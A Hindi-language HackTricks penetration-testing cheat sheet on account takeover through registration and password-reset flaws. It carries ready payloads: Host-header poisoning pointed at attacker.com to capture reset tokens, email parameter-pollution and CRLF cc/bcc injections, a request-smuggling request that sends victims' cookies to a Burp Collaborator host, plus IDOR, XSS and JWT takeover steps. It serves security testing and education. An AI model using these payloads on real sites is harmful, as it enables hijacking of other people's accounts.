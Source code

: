 # पंजीकरण और अधिग्रहण संवेदनशीलताएँ

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **अपनी हैकिंग तरकीबें साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके.

</details>

## पंजीकरण अधिग्रहण

### डुप्लिकेट पंजीकरण

* मौजूदा उपयोगकर्ता नाम का उपयोग करके उत्पन्न करने का प्रयास करें
* ईमेल में विविधता जांचें:
* अपरकेस
* \+1@
* ईमेल में कुछ जोड़ें
* ईमेल नाम में विशेष अक्षर (%00, %09, %20)
* ईमेल के बाद काले अक्षर डालें: `test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### उपयोगकर्ता नाम सूचीकरण

जांचें कि क्या आप पता लगा सकते हैं जब एक उपयोगकर्ता नाम पहले से ही एप्लिकेशन के अंदर पंजीकृत हो चुका है।

### पासवर्ड नीति

एक उपयोगकर्ता बनाते समय पासवर्ड नीति की जांच करें (जांचें कि क्या आप कमजोर पासवर्ड का उपयोग कर सकते हैं).\
उस स्थिति में आप प्रमाणीकरण को ब्रूटफोर्स करने का प्रयास कर सकते हैं।

### SQL इंजेक्शन

[**इस पृष्ठ की जांच करें**](sql-injection/#insert-statement) पंजीकरण फॉर्म में **SQL इंजेक्शन** के माध्यम से खाता अधिग्रहण या जानकारी निकालने का प्रयास करने के लिए।

### Oauth अधिग्रहण

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### SAML संवेदनशीलताएँ

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### ईमेल बदलें

पंजीकृत होने पर ईमेल बदलने का प्रयास करें और जांचें कि क्या यह परिवर्तन सही ढंग से मान्य है या आप इसे मनमाने ईमेल में बदल सकते हैं।

### अधिक जांच

* जांचें कि क्या आप **डिस्पोजेबल ईमेल** का उपयोग कर सकते हैं
* **लंबा** **पासवर्ड** (>200) **DoS** का कारण बनता है
* **खाता निर्माण पर दर सीमा की जांच करें**
* username@**burp\_collab**.net का उपयोग करें और **कॉलबैक** का विश्लेषण करें

## **पासवर्ड रीसेट अधिग्रहण**

### पासवर्ड रीसेट टोकन रेफरर के माध्यम से लीक <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. अपने ईमेल पते पर पासवर्ड रीसेट का अनुरोध करें
2. पासवर्ड रीसेट लिंक पर क्लिक करें
3. पासवर्ड बदलें नहीं
4. किसी भी तृतीय पक्ष वेबसाइटों पर क्लिक करें (उदाहरण: Facebook, twitter)
5. Burp Suite प्रॉक्सी में अनुरोध को इंटरसेप्ट करें
6. जांचें कि क्या रेफरर हेडर पासवर्ड रीसेट टोकन लीक कर रहा है।

### पासवर्ड रीसेट जहरीलापन <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Burp Suite में पासवर्ड रीसेट अनुरोध को इंटरसेप्ट करें
2. Burp Suite में निम्नलिखित हेडर्स को जोड़ें या संपादित करें: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. संशोधित हेडर के साथ अनुरोध को आगे बढ़ाएं\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. _host header_ के आधार पर पासवर्ड रीसेट URL की तलाश करें जैसे: `https://attacker.com/reset-password.php?token=TOKEN`

### ईमेल पैरामीटर के माध्यम से पासवर्ड रीसेट <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### API पैरामीटर्स पर IDOR <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. हमलावर को अपने खाते से लॉगिन करना होगा और **पासवर्ड बदलें** सुविधा पर जाना होगा।
2. Burp Suite शुरू करें और अनुरोध को इंटरसेप्ट करें।
3. इसे रिपीटर टैब पर भेजें और पैरामीटर्स को संपादित करें: उपयोगकर्ता ID/ईमेल\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### कमजोर पासवर्ड रीसेट टोकन <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

पासवर्ड रीसेट टोकन को यादृच्छिक रूप से उत्पन्न किया जाना चाहिए और हर बार अद्वितीय होना चाहिए।\
यह निर्धारित करने का प्रयास करें कि टोकन समाप्त होता है या यह हमेशा समान रहता है, कुछ मामलों में उत्पादन एल्गोरिदम कमजोर होता है और अनुमान लगाया जा सकता है। निम्नलिखित चर एल्गोरिदम द्वारा उपयोग किए जा सकते हैं।

* Timestamp
* UserID
* उपयोगकर्ता का ईमेल
* प्रथम नाम और उपनाम
* जन्म तिथि
* Cryptography
* केवल संख्या
* छोटा टोकन अनुक्रम (वर्ण \[A-Z,a-z,0-9] के बीच)
* टोकन पुन: उपयोग
* टोकन समाप्ति तिथि

### पासवर्ड रीसेट टोकन का लीक होना <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. एक विशिष्ट ईमेल के लिए API/UI का उपयोग करके पासवर्ड रीसेट अनुरोध ट्रिगर करें, उदाहरण: test@mail.com
2. सर्वर प्रतिक्रिया की जांच करें और `resetToken` के लिए देखें।
3. फिर टोकन को एक URL में उपयोग करें जैसे `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### उपयोगकर्ता नाम संघर्ष के माध्यम से पासवर्ड रीसेट <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. पीड़ित के उपयोगकर्ता नाम के समान एक उपयोगकर्ता नाम के साथ सिस्टम पर रजिस्टर करें, लेकिन उपयोगकर्ता नाम से पहले और/या बाद में सफेद स्थान डालें। उदाहरण: `"admin "`
2. अपने दुर्भावनापूर्ण उपयोगकर्ता नाम के साथ पासवर्ड रीसेट का अनुरोध करें।
3. अपने ईमेल पर भेजे गए टोकन का उपयोग करें और पीड़ित का पासवर्ड रीसेट करें।
4. नए पासवर्ड के साथ पीड़ित खाते में कनेक्ट करें।

CTFd प्लेटफॉर्म इस हमले के लिए संवेदनशील था।\
देखें: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### क्रॉस साइट स्क्रिप्टिंग के माध्यम से खाता अधिग्रहण <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. एप्लिकेशन के अंदर या एक सबडोमेन में XSS खोजें अगर कुकीज़ मूल डोमेन के लिए स्कोप की गई हैं: `*.domain.com`
2. वर्तमान **सत्र कुकी** का लीक करें।
3. कुकी का उपयोग करके उपयोगकर्ता के रूप में प्रमाणित करें।

### HTTP अनुरोध स्मगलिंग के माध्यम से खाता अधिग्रहण <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. **smuggler** का उपयोग करके HTTP अनुरोध स्मगलिंग के प्रकार का पता लगाएं (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. एक अनुरोध तैयार करें जो `POST / HTTP/1.1` को निम्नलिखित डेटा के साथ ओवरराइट करेगा:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` लक्ष्य के साथ पीड़ितों को burpcollab पर रीडायरेक्ट करने और उनके कुकीज़ चुराने के लिए\
3\. अंतिम अनुरोध निम्नलिखित की तरह दिख सकता है
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone रिपोर्ट्स इस बग का शोषण करती हैं:
* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)
* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### CSRF के माध्यम से खाता अपहरण <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. CSRF के लिए पेलोड बनाएं, उदाहरण: “पासवर्ड बदलने के लिए स्वत: सबमिट होने वाला HTML फॉर्म”
2. पेलोड भेजें

### JWT के माध्यम से खाता अपहरण <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token का उपयोग एक उपयोगकर्ता को प्रमाणित करने के लिए किया जा सकता है।

* दूसरे उपयोगकर्ता ID / ईमेल के साथ JWT संपादित करें
* कमजोर JWT हस्ताक्षर की जांच करें

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## संदर्भ

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

